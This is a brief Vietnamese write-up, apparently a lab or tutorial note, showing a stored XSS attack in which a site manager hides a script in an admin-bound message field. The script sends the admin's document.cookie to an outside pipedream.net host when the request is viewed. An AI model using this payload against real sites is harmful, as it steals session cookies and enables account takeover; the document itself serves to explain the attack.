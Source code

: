 - Manager của trang web có quyền thêm ảnh vào trang web nhưng phải thông qua sự đồng ý của admin.

![image](images/xss_image.png)

- Ở đây trang Edit để thêm ảnh vào trang web gồm 1 nút button để thêm ảnh, 1 ô input để nhập name account, 1 ô input để thêm subject, 1 ô input tiếp theo để thêm messenger cho amdin.
- Bây giờ attacker bắt đầu thêm ảnh. với 3 ô input đầu thì nhập như bình thường. Tuy nhiên ô messenge thì attacker nhập là:

```javascript
hello
<script type="text/javascript">
	var i=new Image; i.src='https://eno6x6kni89f.x.pipedream.net?key='+document.cookie;
</script>
```

- Bây giờ yêu cầu đã được gửi cho admin. Chỉ cần đợi admin vô mục yêu cầu là attacker đã thành công trong việc lấy cookie của admin.

